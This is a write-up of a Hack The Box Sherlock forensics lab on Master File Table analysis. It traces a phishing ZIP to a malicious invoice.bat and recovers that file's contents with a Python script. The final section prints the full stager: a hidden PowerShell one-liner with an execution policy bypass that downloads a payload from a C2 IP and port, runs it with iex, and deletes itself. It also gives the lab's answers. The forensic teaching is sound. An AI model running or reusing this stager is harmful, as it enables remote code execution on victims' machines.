




# BFT

## Sherlock scenario

In this Sherlock, you will become acquainted with MFT (Master File Table) forensics. You will be introduced to well-known tools and methodologies for analyzing MFT artifacts to identify malicious activity. During our analysis, you will utilize the MFTECmd tool to parse the provided MFT file, TimeLine Explorer to open and analyze the results from the parsed MFT, and a Hex editor to recover file contents from the MFT.

Tools Used:

MFTECmd
TimeLine Explorer
HxD Hex Editor
MFTECmd.exe -f "C:\Users\CyberJunkie\Desktop\C\\$MFT" --csv "C:\Users\CyberJunkie\Desktop\" --csvf MFT_ANALYSIS.csv

The above command processes the MFT file located in "C:\Users\CyberJunkie\Desktop\C" and creates a CSV file named MFT_ANALYSIS.csv on the Desktop of the user CyberJunkie.

Note: You will need to replace the file paths with your own.

Next, open the CSV file in TimeLine Explorer to begin your analysis.

## Given artifact

The C drive's master file table

## Questions

### 1. Simon Stark was targeted by attackers on February 13. He downloaded a ZIP file from a link received in an email. What was the name of the ZIP file he downloaded from the link?

Find for files with `.zip` extension:



**Answer: Stage-20240213T093324Z-001.zip**

### 2. Examine the Zone Identifier contents for the initially downloaded ZIP file. This field reveals the HostUrl from where the file was downloaded, serving as a valuable Indicator of Compromise (IOC) in our investigation/analysis. What is the full Host URL from where this ZIP file was downloaded?

Zone Identifier is an ADS, we can see its content in the parsed MFT directly:



**Answer: `https://storage.googleapis.com/drive-bulk-export-anonymous/20240213T093324.039Z/4133399871716478688/a40aecd0-1cf3-4f88-b55a-e188d5c1c04f/1/c277a8b4-afa9-4d34-b8ca-e1eb5e5f983c?authuser`**

## 3. What is the full path and name of the malicious file that executed malicious code and connected to a C2 server?

Knowing the path that leads to the malicious archive, I just filter the parent path to include it:



**Answer: C:\Users\simon.stark\Downloads\Stage-20240213T093324Z-001\Stage\invoice\invoices\invoice.bat**

## 4. Analyze the $Created0x30 timestamp for the previously identified file. When was this file created on disk?

`0x30` is where the $FILE_NAME attribute lies, just look for that column

**Answer: 2024-02-13 16:38:39**

## 5. Finding the hex offset of an MFT record is beneficial in many investigative scenarios. Find the hex offset of the stager file from Question 3.

Look at the entry number, each MFT record is 1024 bytes, so we multiply it with 1024 and convert to hex:



**Answer: 16E3000**

## 6. Each MFT record is 1024 bytes in size. If a file on disk has smaller size than 1024 bytes, they can be stored directly on MFT File itself. These are called MFT Resident files. During Windows File system Investigation, its crucial to look for any malicious/suspicious files that may be resident in MFT. This way we can find contents of malicious files/scripts. Find the contents of The malicious stager identified in Question3 and answer with the C2 IP and port.

Well the hint suggests using Hex viewer, but I won't choose that path, let's truly inspect it with a python script, to know more about a MFT's record structure, refer to my write-up for the **Insane** challenge named Stay Hydrated in the HTB Global Cyber Skills Benchmark CTF 2026, note that the offset and length are obtained through the parsed MFT for ease, although we can carve it directly from the MFT itself:

```python
import struct

offset=23998464
length=286

with open("$MFT", "rb") as f:
    f.seek(offset)
    record=f.read(1024)

idx=record.find(b'\x80\x00\x00\x00')  

content_offset=struct.unpack("<H", record[idx+20:idx+22])[0]

start=idx+content_offset
file_bytes=record[start:start+length]

print(file_bytes.decode('utf-8', errors='ignore'))
```

Here comes the result:

```text
lehie@MSI:/mnt/c/CTF_Workspace/BKSEC/Sherlock/Very Easy/BFT/C$ python3 extract.py
@echo off
start /b powershell.exe -nol -w 1 -nop -ep bypass "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://43.204.110.203:6666/download/powershell/Om1hdHRpZmVzdGFW9uIGV0dw==') -UseBasicParsing|iex"
(goto) 2>nul & del "%~f0"
```

It downloads a powershell payload and trigger it with `iex`

**Answer: 43.204.110.203:6666**
